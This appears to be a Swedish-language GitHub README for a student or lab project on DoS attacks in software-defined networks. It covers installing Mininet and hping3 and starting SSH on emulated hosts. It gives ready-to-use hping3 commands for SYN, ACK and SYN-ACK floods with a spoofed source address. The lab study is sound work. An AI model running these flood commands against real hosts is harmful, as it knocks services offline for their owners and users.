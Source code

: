 # SYN-FLOOD-DOS-ATTACKER-I-SDN
Detta reposetory är en guide till installationen av mininet och dokumentation av olika attack typer.

## Installation av mininet i UBUNTU

Först installera vi mininet genom sudo `apt-get install mininet`.

Sedan ladda vi ner github `sudo apt-get install git`.

Vi clona mininet github `git clone git://github.com/mininet/mininet`.

I mininet hitta `git tag`.

Kopiera tag.

Skapa en ny gren `git checkout -b "tag"`.

Ladda ned python och andra verktyg för mininet `mininet/util/install.sh -a`.

Lägg till din linux distributiuon, den finns på topen när du ladar ner `mininet/util/install.sh -a "din linux distributiuon"`.

## Starta mininet

För att starta en simpel mininet skriver du `sudo mn` det ger den en kontroller en switch och två host.

För att köra vår typ kör en av våra python skripter.

## Installation av hping3

Ladda ner hping3 med `sudo apt-get install hping3`

## hping3 attack-kommandon

SYN-flood attack `hping3 "host2 ip-address" --syn --flood -a 10.0.0.13`.

ACK-flood attack `hping3 "host2 ip-address" --ack --flood -a 10.0.0.13`

SYN-ACK-flood attack `hping3 "host2 ip-address" --syn --ack --flood -a 10.0.0.13`

## SSH daemon
För att köra en ssh på en host skriver du `sudo ~/mininet/examples/sshd.py`.

Nu kan du ssh från en annan terminal till en host `ssh "IP-adress"`